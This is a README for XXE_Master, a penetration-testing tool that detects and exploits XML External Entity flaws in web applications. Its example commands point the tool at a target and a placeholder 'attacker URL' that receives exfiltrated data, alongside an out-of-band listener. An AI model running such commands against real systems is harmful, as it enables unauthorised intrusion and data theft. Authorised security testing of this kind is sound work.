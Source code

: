# XXE_Master

XXE_Master is a powerful tool designed for detecting, exploiting, and reporting XML External Entity (XXE) vulnerabilities in web applications. This tool is intended for use by ethical hackers, penetration testers, and bug bounty hunters.It supports all operating systems (Linux Windows, and MacOS).

## Table of Contents
- [Features](#features)
- [Requirements](#requirements)
- [Installation](#installation)
- [Usage](#usage)
- [Examples](#examples)
- [Logging](#logging)
- [Contributing](#contributing)
- [License](#license)

## Features
- **Detection:** Identify XXE vulnerabilities in web applications.
- **Exploitation:** Automatically exploit detected vulnerabilities to demonstrate impact.
- **Reporting:** Generate detailed reports of detected vulnerabilities and their exploits.
- **Out-of-Band (OOB) Listener:** Capture exfiltrated data through an OOB listener.

## Requirements
- Python 3.x
- Required Python packages (listed in `setup.py`)

## Installation

### Installation Steps
1. Clone the repository: `git clone https://github.com/uwimanaMuhiziElie/xxe_master.git`
2. Navigate to the project directory: `cd xxe_master`
3. Install XXE_Master: `python setup.py install`

## Usage
- For usage instructions, run `python main.py --help`

## Examples
- **Scan a target for XXE vulnerabilities**:
  - Demonstration: This command will scan the specified target URL for XXE vulnerabilities and use the specified attacker URL for data exfiltration.
  - Example: `python main.py http://www.exampletest.com --attacker-url http://your-attacker-url.com`

- **Scan with custom delay and OOB listener settings**:
  - Demonstration: This command will scan the target URL with a custom delay of 5 seconds between outputs and will listen on port 9000 for out-of-band data.
  - Example: `python main.py http://www.exampletest.com --attacker-url http://your-attacker-url.com --delay 5 --listen-port 9000`

## Troubleshooting
- If you encounter any issues, please [open an issue](https://github.com/uwimanaMuhizieElie/xxe_master/issues) on GitHub.

## License
This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.

## Author
El1E-l33t | Contact: [muhizielie01@gmail.com](mailto:muhizielie01@gmail.com) | Red Teamer, Penetration tester, and bug bounty hunter with a passion for security research.
